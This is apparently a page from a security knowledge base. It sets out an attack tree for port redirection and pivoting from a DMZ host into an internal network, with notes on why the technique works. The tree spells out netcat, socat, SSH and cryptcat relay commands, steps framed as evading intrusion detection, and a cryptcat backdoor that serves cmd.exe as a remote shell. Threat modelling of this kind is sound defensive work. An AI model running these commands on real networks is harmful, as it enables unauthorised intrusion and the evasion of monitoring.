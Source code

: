 # Port redirection

## Attack tree

```text
1 Compromise host in DMZ gaining direct access on port 80/tcp only (AND)
2 Compromise host in internal network by setting a bind shell to listen on port 23 (AND)
3 Redirect
    3.1 One way port redirection with netcat (OR)
        3.1.1 On attack host set up to receive response traffic 
                (nc -lv 3333) (AND)
        3.1.2 Redirect on host in DMZ 
                (nc -lv 80 | nc -t [IP address internal host] 23 | nc [IP address attack host] 3333) (AND)
        3.1.3 Initiate connection to host in DMZ on port 80/tcp (nc [IP address DMZ host] 80) (AND)
        3.1.4 Run commands from window created and receive the command response in the other window.
    3.2 Two way redirection using netcat and named pipes (OR)
        3.2.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.2.2 Redirect on host in DMZ 
                (nc -lvp 80 <pipe | nc -t [IP address internal host] 23 >pipe) (AND)
        3.2.3 Initiate a connection to host in DMZ on port 80/tcp 
                (nc [IP address DMZ host] 80 or telnet [IP address DMZ host] 80) (AND)
        3.2.4 Issue commands and receive command output in the same window
    3.3 Redirect traffic from one port to another on the same host (OR)
        3.3.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.3.2 SSH into host in DMZ if sshd is listening on loopback 
                (nc -lvp 80 <pipe | nc localhost 22 >pipe) (AND)
        3.3.3 Connect 
                (ssh -p 80 [IP address DMZ host])
    3.4 Set up two way redirection using socat (OR)
        3.4.1 (socat TCP-LISTEN:80,fork TCP:[IP address internal host]:23)
    3.5 Evade IDS with socat (OR)
        3.5.1 Generate certificates for each host (dmzhost.pem and internalhost.pem) (AND)
            3.5.1.1 Generate a public/private key pair 
                    (openssl genrsa -out [host].key 1024) (AND)
            3.5.1.2 Self sign the certificate 
                    (openssl req -new -key [host].key -x509 -out [host].crt) (AND)
            3.5.1.3 Generate the PEM certificate by concatenating the key and certificate files 
                    (cat [host].key [host].crt > [host].pem) (AND)
            3.5.1.4 Copy the PEM certificate to the host (AND)
        3.5.2 Set up SSL encrypted tunnel on DMZ host to internal host 
                (socat TCP-LISTEN:80, fork openssl-connect:[IP address internal host]:8080,
                cert[dmzhost].pem,cafile=[internalhost].crt)
        3.5.3 Set up listener on internal host 
                (socat openssl-listen:8080,reuseaddr,
                cert=[internalhost].pem,cafile=[dmzhost].crt,fork TCP:localhost:23)
    3.6 Two way tunnel between attack host and internal host using ssh (OR)
        3.6.1 SSH connection with host in DMZ (AND)
        3.6.2 Setup a listener on attack host on port 3333/tcp 
                to forward traffic it receives to the internal host on port 23, via host in DMZ 
                (ssh -L 3333:[internalhost]:23 username@[dmzhost])
    3.7 Bypass IDS using two ssh local forwards (OR)
        3.7.1 SSH connection with host in internal network (AND)
        3.7.2 Login to host in DMZ 
                (ssh -L 3333:localhost:3333 username@[dmzhost]) (AND)
        3.7.3 On DMZ host login to host in internal network 
                (ssh -L 3333:localhost:23 username@[internalhost])
    3.8 Setting up attack host as a proxy between DMZ host and a Service host using ssh remote forward (OR)
        3.8.1 Connect to DMZ host with ssh remote forward and connect to 80/tcp of a Service host via the 
                loopback adapter on the DMZ host (ssh -R 80:[servicehost]:80 username@[dmzhost])
    3.9 Bypass IDS and firewall 
            (port 80 is nearly always open and a little more traffic will hardly be noticed) with cryptcat
        3.9.1 Create backdoor to decrypt communications from DMZ host 
                (cryptcat -k SECRETKEY -tlp 23 -e cmd.exe)
        3.9.2 Create named pipes on host in DMZ and attack host
        3.9.3 Create tunnel on host in DMZ 
                (cryptcat -k SECRETKEY -lp 80 <pipe | cryptcat -k SECRETKEY -t [internalhost] 23 >pipe)
        3.9.4 Create listener on attack host to encrypt the traffic to DMZ host 
                (cryptcat -k SECRETKEY -lvp 23 <pipe | cryptcat -k SECRETKEY -t [dmzhost] 80 >pipe)
        3.9.5 Initiate a telnet connection to local forwarder 
                (telnet localhost 23)
```

## Notes

In port redirection, an adversary uses a machine with access to the internal network to pass traffic through a port on the firewall or access control list (ACL). The port in question normally denies traffic, but with redirection a hacker can bypass security measures and open a tunnel for communication.

For example, most organisations have a demilitarized zone (DMZ). Servers that communicate from the DMZ and the internal network may have a trust relationship established. The internal devices may be set up to trust information that is received from a DMZ server, and often also vv. When an adversary can compromise a DMZ server she can initiate a connection to the internal network. There are a lot of ways that port redirection can be used to get around obstacles.

* Leverage network access by compromising one system to attack another.
* Access a service that is being blocked by a firewall.
* Evading an intrusion detection system by sending traffic through an encrypted tunnel.

